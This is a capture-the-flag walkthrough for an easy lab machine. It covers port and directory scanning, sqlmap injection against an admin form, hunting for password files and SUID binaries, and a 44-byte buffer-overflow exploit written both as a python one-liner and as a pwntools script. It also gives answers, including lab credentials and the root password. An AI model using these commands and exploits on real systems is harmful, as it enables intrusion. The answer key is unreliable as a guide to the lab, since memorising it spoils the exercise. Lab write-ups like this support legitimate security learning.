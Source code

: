 # The Cod Caper
# 26-05-2022
# little human
## level : easy

> Machine IP : `10.10.7.129`


## Host Enumeration

> Nmap scanning 
```
nmap -A -p1-1000 10.10.7.129 -oN nmap.txt
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many ports are open on the targete machine ? | 2 |
| What is the http-title of the web server ? | Apache2 Ubuntu Default Page: It works |
| What version is the ssh service ? | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| What is the version of the web server ? | Apache/2.4.18 |


## Web Enumeration

> Downloading the wordlist 
```
wget https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt
```
> Gobuster Scanning 
```
gobuster dir -u http://10.10.7.129 --wordlist big.txt -x php,txt,html -t 60| tee directory.txt

```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the name of the important file on the server ? | administrator.php |



## Web Exploitation

> sqlmap scanning
```
sqlmap -u http://10.10.7.129/administrator.php --forms post -a 
```

> after founding the databases we can run the following command
```
sqlmap -u http://10.10.7.129/administrator.php --forms post -a -D users --tables users
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the admin username ? | pingudad |
| What is the admin password ? | secretpass |
| How many forms of SQLI is the form vulnerable to ? | 3 |


## Command Executation

> login to the above form using the credential obtain previously.

> checking other users 
```
cat /etc/passwd | grep home 
```

### findig the SSH password

> finding the hidden password file
```
find / -type f -name *pass* 2>/dev/null
```
> now we found a file with the password
```
/var/hidden/pass
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many files are in the current directory ? | 3 |
| Do I still have an account | yes |
| What is my SSH password ? | pinguapingu |


## LinEnum

> finding the file with suid bit set
```
find / -type f -user root -perm /4000 2>/dev/null

```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the interesting path of the interesting suid file | /opt/secret/root |


## pwndbg

> debuging the file
```
gdb /opt/secret/root

```
> when the file starts we have to enter the following to check cyclic character 
```
r < <(cycllic 50)
```

> after completing the above command if we run `cyclic -l 0x6161616c` we can see the output is 44. which means we need 44 character to overwrite EIP.



## Binary-Exploitation : Manually

> manually exploit 
```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

## Binary-Exploitation : The pwntools way

> python script 
```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()

```


## Finishing the job

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the root password ? | love2fish |






#        THE END 
